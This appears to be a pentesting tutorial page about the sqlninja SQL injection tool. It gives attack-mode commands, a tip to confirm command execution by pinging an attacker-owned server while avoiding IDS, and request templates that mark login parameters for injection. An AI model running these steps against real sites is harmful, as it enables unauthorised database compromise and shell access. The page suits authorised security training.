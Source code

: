 # [sqlninja](http://sqlninja.sourceforge.net)

SQL injection tool for uploading shells and evading network IDS systems.

## Configuration & Usage

Before we can use Sqlninja, we need to define the SQL configuration file. This will contain all the information about the URL, the type of HTTP method, session cookies, and browser agents.

After a configuration file is created, we can run Sqlninja with: `sqlninja -mt -f sqlninja.conf`. This says to run Sqlninja using the test mode to see if the injection works with the configuration file we just created. If you are lucky and do find a alid SQLi, you can start to attack the database with `sqlninja f sqlninja.conf -m f`.

Since with the command line console created by Sqlninja doesn't show the responses from commands, we need to validate that our commands are successfully executing. The best way is by putting `tcp-dump` to listen for pings on a server we owned publicly available on the Internet. By doing so, we can easily validate if our server is responding to pings (ICMP is generally allowed outbound and is less likely to trigger IDS/IPS signatures). `tcpdump -nnvXSs 0 -c2 icmp` will log any pings sent to my server and I'll be able to validate that the server can talk outbound and that my commands are working. On the compromised SQLi host I execute a simple ping back to my server. If it is successfull, *tcpdump* will see the ICMP request.

Command line SQLi attacks can be run with: `sqlninja -f sqlninja.conf -m c`.

### Getting configuration

You can load up *Burp Suite* and turn the proxy intercept on the request where the vulnerable field is passed. Identify the POST parameter values.

* The HTTP Method (GET/POST) needs to be modified to include the full URL.
* You have to define which parameters to fuzz by adding the `__SQL2INJECT__` string.
* Sometimes you may need to try the attack by first closing the vulnerable SQL parameter. This can done with ticks, quotes, or semi-colons.

## GET parameter example

* `gedit ~/Desktop/sql_get.conf`
* Enter the following into the configuration file and save it:

```
--httprequest_start--

GET http://site.com/wfLogin.aspx?user=test';__SQL2INJECT__&pass=test';__SQL2INJECT__HTTP/1.0

Host: site.com
User-Agent: Mozilla/5.0 (X11; U; en-US; rv:1.7.13) Gecko/20060418 Firefox/1.0.8
Accept: text/xml, application/xml, text/html; q=00.9, text/plain; q=0.8, image/png,*/*
Accept-Language: ...
Accept-Charset: ...
Content-Type: application/x-www-form-urlencoded
Cookie: ...
Connection: close

--httprequest_end--
```

## POST parameter example

* `gedit ~/Desktop/sql_post.conf`
* Enter the following into the configuration file and save it:

```
--httprequest_start--

POST http://site.com/wfLogin.aspx HTTP/1.0

...
username=test';__SQL2INJECT__&password=test';__SQL2INJECT__

--httprequest_end--
```
